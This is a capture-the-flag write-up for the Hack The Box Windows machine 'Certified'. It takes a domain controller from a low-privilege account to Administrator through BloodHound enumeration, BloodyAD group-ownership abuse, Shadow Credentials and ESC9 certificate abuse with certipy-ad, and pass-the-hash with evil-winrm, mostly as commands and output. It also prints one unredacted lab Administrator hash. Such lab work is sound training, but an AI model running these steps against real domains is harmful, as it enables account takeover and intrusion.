






# HTB: Certified


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/Certified) |
| Difficulty | Medium |
| OS | Windows |
| Author | ByteFragment |
| Date | November 8th 2026 |


## Provided Credentials

"As is common in Windows pentests, you will start the Certified box with credentials for the following account:

Username: judith.mader Password: judith09"

## Enumeration

Before we do anything lets create three files:

1. **credentials.txt** where we will store valid username/passwd combinations

2. **users.txt** where we will store all usernames we come across

3. **pass.txt** where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse if applicable.

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.46.255 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

```
PORT      STATE SERVICE       VERSION  
53/tcp    open  domain        Simple DNS Plus  
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-09 03:31:32Z)  
135/tcp   open  msrpc         Microsoft Windows RPC  
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn  
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)  
|\_ssl-date: 2026-11-09T03:32:43+00:00; +6h59m52s from scanner time.  
| ssl-cert: Subject:   
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED  
| Not valid before: 2025-06-11T21:05:29  
|\_Not valid after:  2105-05-23T21:05:29  
445/tcp   open  microsoft-ds?  
464/tcp   open  kpasswd5?  
593/tcp   open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)  
| ssl-cert: Subject:   
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED  
| Not valid before: 2025-06-11T21:05:29  
|\_Not valid after:  2105-05-23T21:05:29  
|\_ssl-date: 2026-11-09T03:32:43+00:00; +6h59m53s from scanner time.  
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)  
|\_ssl-date: 2026-11-09T03:32:43+00:00; +6h59m52s from scanner time.  
| ssl-cert: Subject:   
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED  
| Not valid before: 2025-06-11T21:05:29  
|\_Not valid after:  2105-05-23T21:05:29  
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)  
|\_ssl-date: 2026-11-09T03:32:43+00:00; +6h59m53s from scanner time.  
| ssl-cert: Subject:   
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED  
| Not valid before: 2025-06-11T21:05:29  
|\_Not valid after:  2105-05-23T21:05:29  
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|\_http-server-header: Microsoft-HTTPAPI/2.0  
|\_http-title: Not Found  
9389/tcp  open  mc-nmf        .NET Message Framing  
49667/tcp open  msrpc         Microsoft Windows RPC  
49693/tcp open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
49694/tcp open  msrpc         Microsoft Windows RPC  
49695/tcp open  msrpc         Microsoft Windows RPC  
49724/tcp open  msrpc         Microsoft Windows RPC  
49733/tcp open  msrpc         Microsoft Windows RPC  
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

From the nmap results, we can see that the target machine is running a DNS` server` on port 53, `LDAP` on port 389, `kerberos` on port 88, `SMB` share on port 445, and `windows remote management` on port 5985 among other things. We can also see that the Host is named  `DC01` and the domain is `certified.htb` so lets add `dc01.certified.htb` and `certified.htb` to our /etc/hosts file.

Enumerating the SMB service reveals that `judith` does not have access to any non standard shares.

```
netexec smb certified.htb -u judith.mader -p judith09 --shares  
SMB         10.129.231.186  445    DC01             \[\*\] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.231.186  445    DC01             \[+\] certified.htb\\judith.mader:\#\#\#\#\#\#\#\#   
SMB         10.129.231.186  445    DC01             \[\*\] Enumerated shares  
SMB         10.129.231.186  445    DC01             Share           Permissions     Remark  
SMB         10.129.231.186  445    DC01             -----           -----------     ------  
SMB         10.129.231.186  445    DC01             ADMIN$                          Remote Admin  
SMB         10.129.231.186  445    DC01             C$                              Default share  
SMB         10.129.231.186  445    DC01             IPC$            READ            Remote IPC  
SMB         10.129.231.186  445    DC01             NETLOGON        READ            Logon server share   
SMB         10.129.231.186  445    DC01             SYSVOL          READ            Logon server share
```

Additionally `judith` cannot access the `Windows Remote Management` server running on the target machine.

Because we do not have the ability to run commands on the target machine we will have to use an external enumeration method such as `bloodhound-python`.

### Bloodhound-Python

With the information we acquired from the nmap scan:

- **Domain**             : certified.htb

- **Domain Controller**  : dc01.certified.htb

- **Name Server**        : 10.129.231.186 (Target IP)

- **Username**           : judith.mader

- **Password**           : judith09

Let's create a folder titled `bloodhound` and chang into it before we run the command:

```
bloodhound-python -c All -d certified.htb -u judith.mader -p  judith09 -dc dc01.certified.htb -ns 10.129.231.186 --dns-tcp  
  
  
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)  
INFO: Found AD domain: certified.htb  
INFO: Getting TGT for user  
INFO: Connecting to LDAP server: dc01.certified.htb  
INFO: Found 1 domains  
INFO: Found 1 domains in the forest  
INFO: Found 1 computers  
INFO: Connecting to LDAP server: dc01.certified.htb  
INFO: Found 10 users  
INFO: Found 53 groups  
INFO: Found 2 gpos  
INFO: Found 1 ous  
INFO: Found 19 containers  
INFO: Found 0 trusts  
INFO: Starting computer enumeration with 10 workers  
INFO: Querying computer: DC01.certified.htb  
INFO: Done in 00M 18S
```

If while running this command you receive the error `WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great)`, refer to this article by [danieldantebarnes](https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069), follow its steps, and then run the command again.

When the command completes you should hav a series of `.json` files:

```
┌──(kali㉿kali)-\[~/labs\_htb/Certified/bloodhound\]  
└─$ ls      
20261108202252\_computers.json   20261108202252\_domains.json  20261108202252\_groups.json  20261108202252\_users.json  
20261108202252\_containers.json  20261108202252\_gpos.json     20261108202252\_ous.json
```

## BloodHound

Opening BloodHound using the `bloodhound-start` command, we are prompted to upload data to start mapping our environment, referring to our `.json` files:



Once the data is uploaded, let's go to the explore tab, search for our `judith.mader` user, and then mark them as "owned" by right-clicking on the node and selecting `Add as Owned`:



We can see Judith's node is now marked with a small skull.

The reason for this is so we can use one of BloodHound's most useful features, the `Cypher Queries`. Though you can write your own, BloodHound comes with a series of `Saved Queries` we can use immediately. The one we will focus on here is the `Shortest paths from Owned objects`, which provides us with an attack path starting at any object we have marked as Owned. In our case, this will provide us with an attack path starting at the `judith.mader` object:



After running the query we get the following graph:



Judith has `WriteOwner` permissions over the `Management group` meaning the judith.mader user can change who owns the the group. This means that we can change the owner to Judith and then add judith.mader to the management group.

So how do we do this without the direct ability to run commands on the target machine? This is where [BloodyAD](https://www.kali.org/tools/bloodyad/) comes in.

## FootHold

### BloodyAD

Here is a really useful [cheat sheet](https://seriotonctf.github.io/BloodyAD-Cheatsheet/index.html) for BloodyAD.

We will need to change the Management Groups owner to judith.mader using the command:

```
bloodyad --host dc01.certified.htb -d certified.htb -u judith.mader -p 'judith09' set owner MANAGEMENT judith.mader
```

Which successfully returns:

```
┌──(kali㉿kali)-\[~/labs\_htb\]  
└─$ bloodyad --host dc01.certified.htb -d certified.htb -u judith.mader -p 'judith09' set owner MANAGEMENT judith.mader  
\[+\] Old owner S-1-5-21-729746778-2675978091-3820388244-512 is now replaced by judith.mader on MANAGEMENT
```

We can verify this using the command:

```
bloodyad --host dc01.certified.htb -d certified.htb -u judith.mader -p 'judith09' get object MANAGEMENT --resolve-sd
```



Now that we are the owner of the group we need to give judith.mader `genericAll` permissions over the MANAGEMENT group in order to be able to add judith as a member. We can do this with the command:

```
┌──(kali㉿kali)-\[~/labs\_htb\]  
└─$ bloodyad --host dc01.certified.htb -d certified.htb -u judith.mader -p 'judith09' add genericAll MANAGEMENT judith.mader   
  
\[+\] judith.mader has now GenericAll on MANAGEMENT
```

Now we are ready to add them as a member of the group:

```
┌──(kali㉿kali)-\[~/labs\_htb\]  
└─$ bloodyad --host dc01.certified.htb -d certified.htb -u judith.mader -p 'judith09' get membership judith.mader               
  
distinguishedName: CN=Users,CN=Builtin,DC=certified,DC=htb  
objectSid: S-1-5-32-545  
sAMAccountName: Users  
  
distinguishedName: CN=Domain Users,CN=Users,DC=certified,DC=htb  
objectSid: S-1-5-21-729746778-2675978091-3820388244-513  
sAMAccountName: Domain Users  
  
  
  
  
┌──(kali㉿kali)-\[~/labs\_htb\]  
└─$ bloodyad --host dc01.certified.htb -d certified.htb -u judith.mader -p 'judith09' add groupMember MANAGEMENT judith.mader  
\[+\] judith.mader added to MANAGEMENT  
  
  
                                                                                                                                                  
┌──(kali㉿kali)-\[~/labs\_htb\]  
└─$ bloodyad --host dc01.certified.htb -d certified.htb -u judith.mader -p 'judith09' get membership judith.mader              
  
distinguishedName: CN=Users,CN=Builtin,DC=certified,DC=htb  
objectSid: S-1-5-32-545  
sAMAccountName: Users  
  
distinguishedName: CN=Domain Users,CN=Users,DC=certified,DC=htb  
objectSid: S-1-5-21-729746778-2675978091-3820388244-513  
sAMAccountName: Domain Users  
  
distinguishedName: CN=Management,CN=Users,DC=certified,DC=htb  
objectSid: S-1-5-21-729746778-2675978091-3820388244-1104  
sAMAccountName: Management
```

### Certipy-AD

With `GenericWrite` permissions over the `management\_svc` account we can now perform a [Shadow Credentials Attack](https://specterops.io/blog/2021/06/17/shadow-credentials-abusing-key-trust-account-mapping-for-account-takeover/) using [certipy-ad](https://www.kali.org/tools/certipy-ad/) to obtain the NT hash of the `management\_scv` user:

```
┌──(kali㉿kali)-\[~/labs\_htb/Certified\]  
└─$ certipy-ad shadow auto -username judith.mader@10.129.231.186 -p judith09 -account management\_svc                           
Certipy v5.1.0 - by Oliver Lyak (ly4k)  
  
\[\*\] Targeting user 'management\_svc'  
\[\*\] Generating certificate  
\[\*\] Certificate generated  
\[\*\] Generating Key Credential  
\[\*\] Key Credential generated with DeviceID '311b0fa8f7c346c49b014500b8377359'  
\[\*\] Adding Key Credential with device ID '311b0fa8f7c346c49b014500b8377359' to the Key Credentials for 'management\_svc'  
\[\*\] Successfully added Key Credential with device ID '311b0fa8f7c346c49b014500b8377359' to the Key Credentials for 'management\_svc'  
\[\*\] Authenticating as 'management\_svc' with the certificate  
\[\*\] Certificate identities:  
\[\*\]     No identities found in this certificate  
\[\*\] Using principal: 'management\_svc@certified.htb'  
\[\*\] Trying to get TGT...  
\[\*\] Got TGT  
\[\*\] Saving credential cache to 'management\_svc.ccache'  
\[\*\] Wrote credential cache to 'management\_svc.ccache'  
\[\*\] Trying to retrieve NT hash for 'management\_svc'  
\[\*\] Restoring the old Key Credentials for 'management\_svc'  
\[\*\] Successfully restored the old Key Credentials for 'management\_svc'  
\[\*\] NT hash for 'management\_svc': \<REDACTED\>
```

Now that we have the `NT hash` for the `management\_svc` user we can go back to bloodhound and mark this user as owned:



Additionally we see notice that the management\_svc user is a member of the `Remote Management` group. Thinking back to our nmap scan we saw that there was a remote management server running on port 5985. Though we do not have the password for `management\_svc` we do have the NT hash and can thus perform a `pass the hash` attack using [evil-winrm](https://www.kali.org/tools/evil-winrm/):

```
┌──(kali㉿kali)-\[~/labs\_htb/Certified\]  
└─$ evil-winrm -i 10.129.231.186 -u management\_svc -H \<REDACTED\>  
                                          
Evil-WinRM shell v4.1  
                                          
Info: Establishing connection to remote endpoint  
                                          
Info: Connection successful  
\*Evil-WinRM\* PS C:\\Users\\management\_svc\\Documents\> whoami  
certified\\management\_svc  
\*Evil-WinRM\* PS C:\\Users\\management\_svc\\Documents\> hostname  
DC01  
\*Evil-WinRM\* PS C:\\Users\\management\_svc\\Documents\> ipconfig  
  
Windows IP Configuration  
  
  
Ethernet adapter Ethernet0 2:  
  
   Connection-specific DNS Suffix  . : .htb  
   IPv4 Address. . . . . . . . . . . : 10.129.231.186  
   Subnet Mask . . . . . . . . . . . : 255.255.0.0  
   Default Gateway . . . . . . . . . : 10.129.0.1  
\*Evil-WinRM\* PS C:\\Users\\management\_svc\\Documents\>
```

Success! The user flag can be found in management\_svc's Desktop folder.

## Privilege Escalation

The `management\_svc` user also has `GenericAll` permissions over the `ca\_operator` user meaning apply the same `Shadow Credentials` technique to retrieve their NT hash but this time using management\_svc credentials:

```
┌──(kali㉿kali)-\[~/labs\_htb\]  
└─$ certipy-ad shadow auto -username management\_svc@10.129.231.186 -hashes \<REDACTED\> -account ca\_operator  
Certipy v5.1.0 - by Oliver Lyak (ly4k)  
  
\[\*\] Targeting user 'ca\_operator'  
\[\*\] Generating certificate  
\[\*\] Certificate generated  
\[\*\] Generating Key Credential  
\[\*\] Key Credential generated with DeviceID '30b785804cb54e69bf98b2741c13747d'  
\[\*\] Adding Key Credential with device ID '30b785804cb54e69bf98b2741c13747d' to the Key Credentials for 'ca\_operator'  
\[\*\] Successfully added Key Credential with device ID '30b785804cb54e69bf98b2741c13747d' to the Key Credentials for 'ca\_operator'  
\[\*\] Authenticating as 'ca\_operator' with the certificate  
\[\*\] Certificate identities:  
\[\*\]     No identities found in this certificate  
\[\*\] Using principal: 'ca\_operator@certified.htb'  
\[\*\] Trying to get TGT...  
\[\*\] Got TGT  
\[\*\] Saving credential cache to 'ca\_operator.ccache'  
\[\*\] Wrote credential cache to 'ca\_operator.ccache'  
\[\*\] Trying to retrieve NT hash for 'ca\_operator'  
\[\*\] Restoring the old Key Credentials for 'ca\_operator'  
\[\*\] Successfully restored the old Key Credentials for 'ca\_operator'  
\[\*\] NT hash for 'ca\_operator': \<REDACTED\>
```

With the NT hash for the `ca\_operator` user we can use the find vulnerable template feature of `certipy-ad`:

```
certipy-ad find -u ca\_operator@10.129.231.186 -hashes \<REDACTED\> -dc-ip 10.129.231.186 -vulnerable          
Certipy v5.1.0 - by Oliver Lyak (ly4k)  
  
\[\*\] Finding certificate templates  
\[\*\] Found 34 certificate templates  
\[\*\] Finding certificate authorities  
\[\*\] Found 1 certificate authority  
\[\*\] Found 12 enabled certificate templates  
\[\*\] Finding issuance policies  
\[\*\] Found 15 issuance policies  
\[\*\] Found 0 OIDs linked to templates  
\[\*\] Retrieving CA configuration for 'certified-DC01-CA' via RRP  
\[!\] Failed to connect to remote registry. Service should be starting now. Trying again...  
\[\*\] Successfully retrieved CA configuration for 'certified-DC01-CA'  
\[\*\] Checking web enrollment for CA 'certified-DC01-CA' @ 'DC01.certified.htb'  
\[!\] Error checking web enrollment: timed out  
\[!\] Use -debug to print a stacktrace  
\[!\] Error checking web enrollment: timed out  
\[!\] Use -debug to print a stacktrace  
\[\*\] Saving text output to '20261110022855\_Certipy.txt'  
\[\*\] Wrote text output to '20261110022855\_Certipy.txt'  
\[\*\] Saving JSON output to '20261110022855\_Certipy.json'  
\[\*\] Wrote JSON output to '20261110022855\_Certipy.json'
```

Certipy-ad writes the results to a .json and .txt file, let's take a look at the .json file:

```
"Certificate Templates": \{  
    "0": \{  
      "Template Name": "CertifiedAuthentication",  
      "Display Name": "Certified Authentication",  
      "Certificate Authorities": \[  
        "certified-DC01-CA"  
      \],  
      "Enabled": true,  
      "Client Authentication": true,  
      "Enrollment Agent": false,  
      "Any Purpose": false,  
      "Enrollee Supplies Subject": false,  
      "Certificate Name Flag": \[  
        33554432,  
        2147483648  
      \],  
  
                    ...  
  
  
      "\[+\] User Enrollable Principals": \[  
        "CERTIFIED.HTB\\\\operator ca"  
      \],  
      "\[!\] Vulnerabilities": \{  
        "ESC9": "Template has no security extension."  
      \},  
      "\[\*\] Remarks": \{  
        "ESC9": "Other prerequisites may be required for this to be exploitable. See the wiki for more details."  
      \}  
    \}  
  \}
```

From this we can see that the certificate template `CertifiedAuthentication` contains a `"ESC9": "Template has no security extension."` vulnerability.

[Ring0Shady](https://ring0shady.github.io/posts/esc9/) has a great blog post walking through exploiting this vulnerability.

The first step is to change `ca\_operator`'s UPN or `User Principal Name` to 'Administrator':

```
certipy-ad account update -username management\_svc@10.129.231.186 -hashes \<REDACTED\> -user ca\_operator -upn Administrator -dc-ip 10.129.231.186  
Certipy v5.1.0 - by Oliver Lyak (ly4k)  
  
\[\*\] Updating user 'ca\_operator':  
    userPrincipalName                   : Administrator  
\[\*\] Successfully updated 'ca\_operator'
```

Then we can request a certificate, specifying the vulnerable template:

```
certipy-ad req -username ca\_operator@10.129.231.186 -hashes \<REDACTED\> -ca certified-DC01-CA -template CertifiedAuthentication                   
Certipy v5.1.0 - by Oliver Lyak (ly4k)  
  
\[\*\] Requesting certificate via RPC  
\[\*\] Request ID is 17  
\[\*\] Successfully requested certificate  
\[\*\] Got certificate with UPN 'Administrator'  
\[\*\] Certificate has no object SID  
\[\*\] Try using -sid to set the object SID or see the wiki for more details  
\[\*\] Saving certificate and private key to 'administrator.pfx'  
\[\*\] Wrote certificate and private key to 'administrator.pfx'
```

This saves the certificate as well as a private key to a .pfx file which we can use authenticate to the domain controller. Before we do that we need to change ca\_operators upn back to its original state:

```
certipy-ad account update -username management\_svc@10.129.231.186 -hashes \<REDACTED\> -user ca\_operator -upn ca\_operator -dc-ip 10.129.231.186  
  
Certipy v5.1.0 - by Oliver Lyak (ly4k)  
\[\*\] Updating user 'ca\_operator':  
    userPrincipalName                   : ca\_operator@certified.htb  
\[\*\] Successfully updated 'ca\_operator'
```

We are now ready to authenticate to the DC:

```
certipy-ad auth -dc-ip 10.129.231.186 -pfx administrator.pfx  -domain certified.htb                
Certipy v5.1.0 - by Oliver Lyak (ly4k)  
  
\[\*\] Certificate identities:  
\[\*\]     SAN UPN: 'Administrator'  
\[\*\] Using principal: 'administrator@certified.htb'  
\[\*\] Trying to get TGT...  
\[\*\] Got TGT  
\[\*\] Saving credential cache to 'administrator.ccache'  
\[\*\] Wrote credential cache to 'administrator.ccache'  
\[\*\] Trying to retrieve NT hash for 'administrator'  
\[\*\] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:\<REDACTED\>
```

With the Administrator hash we can use `evil-winrm` to access the target system:

```
evil-winrm -i 10.129.231.186 -u administrator -H 0d5b49608bbce1751f708748f67e2d34   
                                          
Evil-WinRM shell v4.1  
                                          
Info: Establishing connection to remote endpoint  
                                          
Info: Connection successful  
\*Evil-WinRM\* PS C:\\Users\\Administrator\\Documents\> whoami  
certified\\administrator  
\*Evil-WinRM\* PS C:\\Users\\Administrator\\Documents\> hostname  
DC01  
\*Evil-WinRM\* PS C:\\Users\\Administrator\\Documents\> ipconfig  
  
Windows IP Configuration  
  
  
Ethernet adapter Ethernet0 2:  
  
   Connection-specific DNS Suffix  . : .htb  
   IPv4 Address. . . . . . . . . . . : 10.129.231.186  
   Subnet Mask . . . . . . . . . . . : 255.255.0.0  
   Default Gateway . . . . . . . . . : 10.129.0.1
```

The root.txt flag can be found in the Administrators Desktop folder thus solving the challenge!


